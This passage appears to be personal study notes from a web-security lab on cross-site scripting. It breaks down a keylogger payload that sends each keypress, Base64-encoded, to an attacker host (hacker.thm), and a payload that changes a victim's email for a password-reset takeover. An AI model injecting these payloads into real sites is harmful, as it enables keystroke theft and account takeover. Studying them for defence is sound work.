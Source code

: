 - In this Above Payload ....
	- `<script>` : is a HTML tag used to define a client-side script ... [[#^5c8257|Explained Above]]
	- `document.onkeypress = funtion (e) {...}` :  this sets an event listener that triggers the specified function whenever a key is pressed on the keyboard . 
	- `fetch('https://hacker.thm/log?key=' + btoa(e.key))` : is a JavaScript function that sends an HTTP request to the specified URL, in this case, `https://hacker.thm/log`. The request includes the key that was pressed as a parameter, encoded in _Base64_ format using the `btoa(e.key)` function.
	- The entire payload `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>` will be executed in the user's browser if successfully injected. It sends the keypress data to the attacker's server (`https://hacker.thm/log`), allowing the attacker to potentially record sensitive information like usernames, passwords, or other confidential data.


##### <span style="color: pink;">**4. Business Logic :-**</span>
A business logic vulnerability refers to a flaw or weakness in a system's design or implementation that allows an attacker to manipulate the system's intended behavior in a way that leads to unauthorized access, data leakage, or other malicious outcomes. This type of vulnerability often involves exploiting the intended functionality of an application or service in an unintended way, rather than directly targeting technical weaknesses like input validation errors or outdated software.

<span style="color: green;"><b>**_For Example_**</b></span> , Consider a business or  eCommerce site has the _password reset_ functionality , where an JavaScript function is responsible for changing the user's email address called `user.changeEmail()` , an attacks can *modify/craft*  a payload , that can change the email address or perform a _password reset attack_. 

```JavaScript
Payload Example :- <script>user.changeEmail('attacker@hacker.thm');</script>
```

- There can be so many intentions and their modification varies according the security level and the code we want to execute or change . 

-> If you find you want more understanding  and experiment with JavaScript code , you can use console for that purpose built in your browser , which can be found under Web Developer Tools on Firefox , Developer Tools on chrome , and Web Inspector on Safari  , hmm i use Firefox or brave by the way .

```
Here are some shortcuts for these :

- On Firefox, press Ctrl + Shift + K
- On Google Chrome, press Ctrl + Shift + J
- On Safari, press Command + Option + J
```

+ as of this post , we might come against some functions like `alert()` , `console.log()` , `atob("base64_string")` .....here is breakdown for you ...

	- `alert()` : A JavaScript alert can be displayed in a web browser by using the alert() method. Try alert('XSS') or alert(1).

	- `console()` : Similar to this, console.log() can be used to show a value in the JavaScript console of the browser. To see a number or a text string displayed, try the following two examples in the console log: console.log(1) and console.log("test text").
	
	- Encoding : A binary string can be encoded to produce an ASCII string that is base64-encoded using the JavaScript function `btoa("string")`. This can be used to encode other alphabets or delete special letters and white space. The function `atob("base64_string")` is the opposite.
